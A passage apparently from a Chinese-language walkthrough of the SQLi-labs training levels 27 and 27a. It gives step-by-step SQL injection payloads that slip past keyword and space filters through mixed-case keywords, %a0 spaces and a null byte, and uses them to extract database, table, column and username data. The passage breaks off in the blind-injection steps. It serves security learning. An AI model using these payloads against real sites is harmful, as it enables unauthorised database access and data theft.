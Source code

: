 `0')%a0union%a0select%a01,2,3||('1`

`0')%a0union%a0select%a01,2,3;%00`

***
# less 27(过滤了union和select)
## 原理
这次过滤的更全面了

[![Bim5u9.jpg](https://s1.ax1x.com/2020/10/22/Bim5u9.jpg)](https://imgchr.com/i/Bim5u9)

不让注释不让联合不让select

但是呢~可以发现源码中的select是全大写过滤或者全小写过滤的，没有/i不区分大小写，

那就有方法论，双写大小写混写

连空格也不让用

## 步骤
1.爆库
`?id=0'%a0uniOn%a0sElEct%a01,database(),3%a0or%a0'1'='1 `

2.爆表名

`?id=0'%a0uniOn%a0sElEct%a01,(group_concat(table_name)),3%a0from%a0information_schema.tables%a0where%a0table_schema='security'%a0%26%26%a0'1'='1`

3.查字段名

`?id=0'%a0uniOn%a0sElEct%a01,(group_concat(column_name)),3%a0from%a0information_schema.columns%a0where%a0table_schema='security'%a0And%a0table_name='users'%a0%26%26%a0'1'='1 `

4.查数据

`?id=0'%a0uniOn%a0sElEct%a01,(group_concat(username)),3%a0from%a0users%a0uniOn%a0seLect%a01,2,'3`


***
# less 27a(过滤全家桶&基于盲注)
## 原理
改为双引号闭合，且需要盲注操作

## 步骤
1.测试双引号闭合

`?id=1"or "1"="1`

2.显示位判断

`?id=1"and(length(database())>7)%a0uNion%a0sELect%a01,2,"3`

3.查数据库
